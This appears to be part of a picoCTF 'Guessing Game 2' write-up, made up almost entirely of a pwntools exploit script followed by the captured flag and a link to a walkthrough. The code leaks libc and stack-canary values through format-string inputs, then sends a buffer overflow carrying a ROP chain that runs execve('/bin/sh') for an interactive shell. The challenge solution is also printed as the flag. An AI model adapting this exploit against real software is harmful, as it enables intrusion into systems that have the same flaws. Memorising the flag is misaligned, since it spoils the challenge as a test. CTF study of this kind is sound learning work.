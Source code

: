 ```python=
__libc_start_main = int(r.recvuntil(b"\n").strip().decode(), 16)
libc_addr = __libc_start_main - 0x018fa1
libc_system_addr = libc_addr + 0x03cf10
success(f"libc base address = {hex(libc_addr)}")
success(f"libc system address = {hex(libc_system_addr)}")
# raw_input()

'''#############
Find Canary Value
#############'''
r.recvuntil(b'What number would you like to guess?\n')
r.sendline(str(ans).encode())
r.recvuntil(b'Name? ')
r.sendline(b"%135$p")
r.recvuntil(b"Congrats: 0x")
canary_value = int(r.recvuntil(b"\n").strip().decode(), 16)
success(f"Canary Value = {hex(canary_value)}")
# raw_input()

'''#############
Get Shell
#############'''
r.recvuntil(b'What number would you like to guess?\n')
r.sendline(str(ans).encode())
r.recvuntil(b'Name? ')
r.sendline(b"%138$p")
r.recvuntil(b"Congrats: ")
ebp_addr = int(r.recvuntil(b"\n").strip().decode(), 16)
success(f"ebp address = {hex(ebp_addr)}")
# raw_input()

bin_sh_1 = 0x6e69622f
bin_sh_2 = 0x68732f
pop_eax_ret = 0x00024d37 + libc_addr
pop_ebx_ret = 0x00018d05 + libc_addr
pop_ecx_ret = 0x00193aa4 + libc_addr
pop_edx_ret = 0x00001aae + libc_addr
int_0x80 = 0x00002d3f + libc_addr

ROP_payload = flat(
    pop_eax_ret, 0xb,
    pop_ebx_ret, (ebp_addr+0x8),
    pop_ecx_ret, 0,
    pop_edx_ret, 0,
    int_0x80,
    bin_sh_1, bin_sh_2
)
r.recvuntil(b'What number would you like to guess?\n')
r.sendline(str(ans).encode())
r.recvuntil(b'Name? ')
r.sendline(b'a' * (0x200) + p32(canary_value) + b'a' * 0xc + ROP_payload)
# raw_input()
r.interactive()
```

Flag: `picoCTF{p0p_r0p_4nd_dr0p_1t_73d8dcc827619318}`

## Reference
[PicoCTF — Guessing Game 2 Walkthrough | ret2libc, stack cookies](https://captain-woof.medium.com/picoctf-guessing-game-2-walkthrough-ret2libc-stack-cookies-6f9fc39273bf)